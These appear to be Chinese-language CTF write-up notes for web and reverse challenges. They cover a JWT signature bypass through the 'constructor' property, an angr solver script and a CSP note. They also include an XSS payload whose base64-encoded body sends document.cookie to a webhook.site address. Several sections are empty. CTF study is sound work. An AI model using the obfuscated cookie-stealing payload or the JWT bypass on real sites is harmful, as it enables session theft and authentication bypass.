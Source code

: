 # web
### BadJwt
#nodejs
传入jwt,token为输入,secret为服务器随机生成36位密钥.下面这个函数负责计算secret
```js

const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
```

当传入特殊的属性如`constructor`时,`algorithms[header.alg.toLowerCase()](data, secret);`
返回函数的构造方法,
![image](https://i.imgur.com/8CnkB7o.png)
>TL;DR explanation: 
`const signature = algorithms[header.alg.toLowerCase()](data, secret);` is vulnerable to ["constructor"], calling the array constructor with the params -> results in an arr of dicts
const calculated_buf = Buffer.from(calculated_signature, 'base64'); casts everything to a primitive -> arr of dict gets "stringified"

### blink
#xss 
popover框架
```html
<iframe srcdoc="<a id=togglePopover href='cid:eval(atob(`ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2RjZTFiNmZjLTQ1M2MtNDI1Zi1hY2MyLTAwNTFkY2Y4NWMxOD8nK2RvY3VtZW50LmNvb2tpZSk`))'></a>" name="body"></iframe>
```
### eeeeejs


### simple calc
#xss 
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230919224449.png)

eval执行任意代码,但是存在csp `default-src http://simplecalc.seccon.games:3000/js/index.js 'unsafe-eval';

限制了源
# reverse
### jumpout
#angr
```python
import angr
import claripy
p = angr.Project('./jumpout', load_options={"auto_load_libs": False}) 
argv = [p.filename]
state = p.factory.entry_state(args = argv)
simgr = p.factory.simulation_manager(state)

simgr.explore(find=lambda s: b"Correct" in s.posix.dumps(1))

if len(simgr.found) > 0:
    state = simgr.found[0]
    print(state.posix.dumps(0))
else: print("Not found...")
```
# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-19   14:50